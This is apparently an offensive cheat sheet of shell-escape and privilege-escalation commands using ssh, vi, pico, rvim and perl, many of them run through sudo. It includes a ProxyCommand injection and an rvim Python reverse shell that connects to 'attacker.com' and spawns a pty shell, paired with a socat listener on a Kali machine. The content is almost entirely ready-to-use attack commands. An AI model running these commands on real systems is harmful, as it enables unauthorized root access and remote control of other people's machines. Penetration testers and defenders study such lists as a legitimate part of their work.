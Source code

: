 ## ssh
#### \# shell
```
ssh localhost $SHELL --noprofile --norc
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

## vi
#### \# shell
```
sudo vi -c ':!/bin/sh' /dev/nul
```
```
vi
:set shell=/bin/sh
:shell
```

## pico
#### \# shell
```
sudo pico
^R^X
reset; sh 1>&0 2>&0
```
## rvim
#### \# shell
```
sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
sudo rvim -c ':lua os.execute("reset; exec sh")'
```
#### \# reverse shell
on kali
```
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
on box
```
export RHOST=attacker.com
export RPORT=12345
rvim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```

## perl
#### \# shell
```
sudo perl -e 'exec "/bin/sh";'
```
